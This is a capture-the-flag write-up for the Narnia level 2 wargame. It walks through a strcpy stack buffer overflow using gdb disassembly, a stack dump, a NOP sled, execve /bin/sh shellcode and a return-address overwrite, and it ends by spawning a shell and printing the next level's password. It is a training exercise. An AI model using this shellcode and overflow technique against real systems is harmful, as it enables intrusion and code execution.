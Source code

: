 --------------
*This one is going to be tricky so take a deep breath and follow me*

Here is our code!

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}

```


So first i want to try a basic overflow, let's create a 128char length strìng w/ bash, Let's just run this:
```bash
for i in {1..128}; do a+="a";done;echo $a
```
and then we input into ./narnia2 by just tapping ./narnia2 $a
Everything seems to work as usual
now I replace 128 by 140 and get a segmentation fault


###   For now everything seems to be pretty 'logic'
As long as our input is inferior as the Buffer Size everything works fine but once we've break it **BOOM**
But our objective is to take control of the last bye without this segmentation fault to incrust a shell code!

##       How can I do that?
We can try to run this function in debug mod to understand what's happening after the 128 bytes
so let's see with gdb ./narnia2
Once you're in let's disassemble with `disas main`
Here is our ouput:
```
   0x0804844b <+0>:     push   %ebp
   0x0804844c <+1>:     mov    %esp,%ebp
   0x0804844e <+3>:     add    $0xffffff80,%esp
   0x08048451 <+6>:     cmpl   $0x1,0x8(%ebp)
   0x08048455 <+10>:    jne    0x8048471 <main+38>
   0x08048457 <+12>:    mov    0xc(%ebp),%eax
   0x0804845a <+15>:    mov    (%eax),%eax
   0x0804845c <+17>:    push   %eax
   0x0804845d <+18>:    push   $0x8048520
   0x08048462 <+23>:    call   0x8048300 <printf@plt>
   0x08048467 <+28>:    add    $0x8,%esp
   0x0804846a <+31>:    push   $0x1
   0x0804846c <+33>:    call   0x8048320 <exit@plt>
   0x08048471 <+38>:    mov    0xc(%ebp),%eax
   0x08048474 <+41>:    add    $0x4,%eax
   0x08048477 <+44>:    mov    (%eax),%eax
   0x08048479 <+46>:    push   %eax
   0x0804847a <+47>:    lea    -0x80(%ebp),%eax
   0x0804847d <+50>:    push   %eax
   0x0804847e <+51>:    call   0x8048310 <strcpy@plt>
   0x08048483 <+56>:    add    $0x8,%esp
   0x08048486 <+59>:    lea    -0x80(%ebp),%eax
   0x08048489 <+62>:    push   %eax
   0x0804848a <+63>:    push   $0x8048534
   0x0804848f <+68>:    call   0x8048300 <printf@plt>
   0x08048494 <+73>:    add    $0x8,%esp
   0x08048497 <+76>:    mov    $0x0,%eax
   0x0804849c <+81>:    leave  
   0x0804849d <+82>:    ret
```  
>How to understand this table:
>The number on the left are the memory space allocated to each action we make with our app
>The words in the middle are the different action made to the stack
>And don't try to understand the Right part bc we don't need it now!

Our main objective now is to take control of the "seg Fault" part, so let's replace the "leave" by a break we initiate
I copied the leave Hex and then run `break *0x0804849c`
So on i created a break point where i can see what's happening at a time T

Let's run our program (still in the dbg) by using `run $a`, but my $a is not into my gdb ($a is a variable dedicated to bash, but now i'm using a different app who don't share variables with my bash) so let's just run a python or perl to inject lots of char, i choosed python(i use more python than perl so it's easier to me)
Let's run the following command into our gdb:

run `python -c 'print "A"*140'`

And then it tell us we have a breakpoint on main  --> perfect
So now let's see if we can input 4hex at the end of that string, let's use deadbeef as a test
(deadbeef is like the cool hex for pentesting bc you can read it directly in hex)
so my code will look like this --> run `python -c 'print "A"*150 + "\xef\xbe\xad\xde"'`
Now we have to found were the breakpoint is (how many A before i can see my deadbeef)
(press c for continuating the program after our break point!)
Basically, on the last Narnia, the buffer overflow was totally given to me so it was quite easy for me but now I need to find this breakpoint by my own
Normally you do have Injecter that find this buff overflow by it's own but for the game let's just do it by hand
So I move on pretty quickly and I saw that at 132A i can see my dead beef appear!


##         Now it's time for some theory isn't it?
What is ESP and EBP??
ESP is the current stack pointer. --> Which stack are we pointing at?
EBP is the base pointer for the current stack frame. --> Which part of this stack are we pointing at?
Pretty easy to understand when you have basic pointer knowledge, but now we need to use them to find how we will inject our shellcode ( I said that we were going to reuse it!)

We now have to sent him a request, taking care of the 132 char and by the way forcing the CPU to exec our beautiful shellcode.
We're going to use a NOP sled (our slide/ramp, ayw) --> *(you've to know that, now most of the protocol detects NOp sled and so it's a pretty rare technique in our time)*
This NÖP basically just switch the information to the next hex, like a virtual slide!

NOP sled is caracterised by the char \x90
Our shellcode is 25bytes long, so we need 
132 - 25 = 107 nop sled to sliiide onto all the first data, our shell code, and our dead beef to close up the march
So we have a fatty code but the computer will only understand that he has to skip this code x107 times and THEN when he finally find stg to do **BOOM** that's our exploit!
so let's type this command in the dbg:
run `python -c 'print "\x90"*107 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xef\xbe\xad\xde"'`

###      Let's exploit it Timmy
But putting our deadbeef has a sens as long as we're just testing! Now it's time for action!
ALRIGHT, now we need to see which address is going to replace our deadbeef! 
So let's have a look to the stack and see which parts are fulfilled by our \x90 and pick one of them
If they are overwritten let's considere them as free and use this adress!
Here is the stack: (*on the left=adress of the byte, and just after the four bit of this byte*)

```
----------------------------------cutted----------------------------------
0xffffd7d0:     0xffffd7fb      0x00000000      0x00000000      0x00000000
0xffffd7e0:     0x00000000      0x00000000      0x4f000000      0xb63dffa5
0xffffd7f0:     0xf0e77704      0x03265561      0x6960a8df      0x00363836
0xffffd800:     0x00000000      0x72616e2f      0x2f61696e      0x6e72616e
0xffffd810:     0x00326169      0x90909090      0x90909090      0x90909090
0xffffd820:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd830:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd840:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd850:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd860:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd870:     0x90909090      0x90909090      0x90909090      0x31909090
0xffffd880:     0x2f6850c0      0x6868732f      0x6e69622f      0x5350e389
0xffffd890:     0xc289e189      0x80cd0bb0      0xdeadbeef      0x5f434c00
0xffffd8a0:     0x3d4c4c41      0x555f6e65      0x54552e53      0x00382d46
0xffffd8b0:     0x435f534c      0x524f4c4f      0x73723d53      0x643a303d
----------------------------------cutted----------------------------------
```

Let's have a closer look and find adresses overwritten by \x90
I cutted the stack to the part we're interested in!
We see that from 0xffffd820 to 0xffffd870, they are all fulfilled by 9090909 so let's grab one of this line
0xffffd860 in my case ! Don't forget to convert to a little endian
>Quick reminder Big and Little Endian switch the reading order, so read it in reverse --> like so \x60\xd8\xff\xff

So let's replace our deadbeef by this brand new adresses and we're fine!
run `python -c 'print "\x90"*107 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x60\xd8\xff\xff"'`

after running it we saw this: process 15647 is executing new program: /bin/dash
PERFECT!!!! SO OUR EXPLOIT WORKS

Pretty standart but it does works! let's test it out of the dbg

./narnia2 `python -c 'print "\x90"*107 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x60\xd8\xff\xff"'`

And we do have a new shell!!! Let's just cat the next password

$ cat /etc/narnia_pass/narnia3
vaequeezee

IT DOES WORK perfect !! let's move on to the next level